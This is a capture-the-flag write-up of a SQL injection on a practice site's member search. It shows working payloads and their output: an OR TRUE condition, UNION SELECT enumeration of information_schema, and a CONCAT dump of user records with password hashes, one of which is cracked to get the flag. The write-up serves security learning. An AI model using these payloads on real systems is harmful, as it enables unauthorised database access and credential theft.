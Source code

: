 # SQL injection on members table

## How we found the breach

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

### Legit search

First of all we try to find a user with a `userID` equal to `1`:

Input:

```sql
1
```

Output:

```txt
ID: 1
First name: one
Surname : me
```

We can see that the server returns two fields for the user.

### Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:

```sql
SELECT * FROM users
```

Output:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server shows us the raw MariaDB error, and we can see that our query has been added to a prebuilt one. We think that the prebuilt query should be something like this:

```sql
SELECT first_name, surname FROM users WHERE users.id = ${id} 
```

### Condition injection

To be able to retrieve all the entries of `users` table, we need to create a SQL query that has a `WHERE` clause always evaluating to `TRUE`. We achieve this result by adding a `OR TRUE` condition:

Input:

```sql
1 OR TRUE
```

Resulting on the server as a query like this:

```sql
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE
```

Output:

```
ID: 1 OR TRUE 
First name: one
Surname : me

ID: 1 OR TRUE 
First name: two
Surname : me

ID: 1 OR TRUE 
First name: three
Surname : me

ID: 1 OR TRUE 
First name: Flag
Surname : GetThe
```

There are four users in the `users` table. The last one looks quite suspicious.

### UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As we could build a custom SQL query from our own input, by using the UNION SELECT attack we can build a new query over the first one and change its behavior completely.

We want to discard all results of the first SELECT and only keep those of our own SELECT. For that we make sure the WHERE clause of the first SELECT always evaluates to `FALSE`.

Input:

```sql
-1 UNION SELECT * FROM users
```

As a serial integer is never negative, no user can have an id that is `-1`.

Output:

```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more columns than the initial sql query, that returned 2 columns, due to selecting all fields with `*`.

### Finding all tables columns name

Our goal is to retrieve the name of all columns of the `users` table, to be able to select which of them we want to query with the `UNION SELECT` injection.

To do so we will be using the default database `information_schema.columns` information.

Input:

```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:

```
<!-- OTHER DATABASE INFORMATION -->

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

### Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve the value of all the columns for each user, concatenated inside a single column, as the initial query can return at most 2 columns.

Input:

```sql
-1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users
```

Output:

```sql
ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

#### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` string, contained in the `countersign` users table column, we get `FortyTwo`.

Hashing using sha256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to exploit the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/README.md)

## How to avoid the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/README.md)
